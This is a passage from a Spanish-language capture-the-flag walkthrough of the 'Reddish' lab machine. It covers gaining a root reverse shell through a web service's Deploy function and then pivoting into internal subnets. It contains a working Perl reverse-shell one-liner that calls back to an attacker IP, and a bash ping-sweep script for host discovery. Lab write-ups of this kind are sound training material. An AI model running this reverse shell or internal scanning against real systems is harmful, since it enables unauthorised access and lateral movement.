 ![Untitled](/assets/img/Reddish/Pasted image 20240327174446.png)

Se procede a editar la IP correspondiente a nuestra máquina atacante y el puerto que estará en escucha para obtener la reverse Shell
![Untitled](/assets/img/Reddish/Pasted image 20240327174726.png)

En nuestra máquina atacante se procede a ponerse en escucha a través de `nc` y en el servicio web se ejecuta la instrucción a través de `Deploy`, obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240327174948.png)

Como se observa listando el usuario y las interfaces de red, se gana acceso como el usuario `root`, pero actualmente nos encontramos en el segmento de red `172.18.X.X/16` y `172.19.X.X/16`

Para trabajar más cómodamente y tener una Shell totalmente interactiva se gana acceso a través de una reverse Shell en Perl, utilizando:

```bash
perl -e 'use Socket;$i="10.10.14.12";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Descubriendo nuevos hosts

Actualmente nuestra dirección IP corresponde a la `172.18.0.2` y `172.19.0.4` por lo que se tiene alcance a dos segmentos de red.

Creando un script `hostDiscovery.sh` en `bash` para descubrir nuevos hosts activos en la red, a través de:

```bash
##!/bin/bash

hosts=("172.18.0" "172.19.0")

for host in "${hosts[@]}"; do
  echo -e "\n[+] Enumerating $host.0/24\n"
  for i in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 $host.$i" >/dev/null && echo "[+] Host $host.$i - ACTIVE" &
  done
  wait
done
```

Se puede "transferir" el script codificando el `base64` y en la máquina víctima decodificarlo, se procede a otorgar de permisos de ejecución y ejecutar el script obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240327180453.png)

Se descubre cuatro hosts activos, se procede a dibujar el diagrama de red:

![Untitled](/assets/img/Reddish/Pasted image 20240327182025.png)

Leyendas:
